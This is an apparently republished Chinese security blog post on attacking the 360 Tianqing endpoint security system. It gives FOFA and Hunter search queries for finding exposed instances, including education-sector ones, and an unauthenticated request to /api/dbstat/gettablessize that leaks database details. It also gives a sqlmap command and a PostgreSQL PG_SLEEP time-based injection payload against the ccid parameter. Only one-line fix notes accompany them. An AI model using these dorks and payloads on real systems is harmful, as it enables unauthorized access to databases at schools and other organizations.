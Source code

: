 # 原创
：  EDUSRC-记某擎未授权与sql注入

# EDUSRC-记某擎未授权与sql注入

**目录**

[360天擎 - 未授权与sql注入](#360%E5%A4%A9%E6%93%8E%20-%20%E6%9C%AA%E6%8E%88%E6%9D%83%E4%B8%8Esql%E6%B3%A8%E5%85%A5)

[信息收集](#%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86)

[FOFA语法](#FOFA%E8%AF%AD%E6%B3%95)

[鹰图搜索](#%E9%B9%B0%E5%9B%BE%E6%90%9C%E7%B4%A2)

[360天擎未授权访问 - 数据库信息泄露](#360%E5%A4%A9%E6%93%8E%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%20-%20%E6%95%B0%E6%8D%AE%E5%BA%93%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2)

[漏洞复现](#%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)

[修复方案](#%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88)

[360天擎终端安全管理系统ccid处SQL注入](#360%E5%A4%A9%E6%93%8E%E7%BB%88%E7%AB%AF%E5%AE%89%E5%85%A8%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9Fccid%E5%A4%84SQL%E6%B3%A8%E5%85%A5)

[漏洞复现](#%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)

[手动测试方法](#%E6%89%8B%E5%8A%A8%E6%B5%8B%E8%AF%95%E6%96%B9%E6%B3%95)

## 360天擎 - 未授权与sql注入

通常访问的页面如下，存在登录框

### 信息收集

#### FOFA语法

> 
- `title="360新天擎"`


需重点关注框框的图标，可以聚焦资产搜索

> 
- `icon_hash="-829652342"`


#### 鹰图搜索

这边展现EDUSRC的搜索语法，相对来说资产较少，因为是老洞

> 
- `web.title="360新天擎"&amp;&amp; ip.isp="教育"`


### 360天擎未授权访问 - 数据库信息泄露

#### 漏洞复现

路由后拼接`/api/dbstat/gettablessize`

> 
- `GET /api/dbstat/gettablessize HTTP/1.1`- `Host: {{Hostname}}`


#### 修复方案

未授权更多的是鉴权问题，增加权限校验

### 360天擎终端安全管理系统ccid处SQL注入

#### 漏洞复现

比较推荐的方式先测试是否存在数据库信息泄露，存在的话大概率存在`SQL`注入

路由后拼接`/api/dp/rptsvcsyncpoint?ccid=1`

> 
- `GET /api/dp/rptsvcsyncpoint?ccid=1 HTTP/1.1`- `Host: {{Hostname}}`


大致页面如下所示

这时候丢到`sqlmap`中(可能会慢，因为是时间注入)

> 
- `python .\sqlmap.py --batch -dbs -u https://{{Hostname}}/api/dp/rptsvcsyncpoint?ccid=1`


#### 手动测试方法

360天擎用的大概率是`PostgreSQL`，尝试如下时间注入`payload`，然后注意页面响应时间

> 
- `{{Hostname}}/api/dp/rptsvcsyncpoint?ccid=1';SELECT PG_SLEEP(5)-- `


#### 修复方案

SQL注入类问题更多的是需要进行参数预处理

还没看够？可以关注一下呦~

 渗透工具

技术文档、书籍

<img alt="" height="516" src="https://img-blog.csdnimg.cn/f333a24647774be5b99b00fb7019d620.png" width="852"/> <img alt="" height="523" src="https://img-blog.csdnimg.cn/3e579b7d7a164889a57771c035775069.png" width="856"/>

面试题

帮助你在面试中脱颖而出

视频

基础到进阶

环境搭建、HTML，PHP，MySQL基础学习，信息收集，SQL注入,XSS，CSRF，暴力破解等等

<img alt="" height="481" src="https://img-blog.csdnimg.cn/a601ca2e0eb040bd911477a4f54fef8e.png" width="694"/> <img alt="" height="77" src="https://img-blog.csdnimg.cn/04beeeb6757b422a83ca0900a349a544.png" width="665"/>

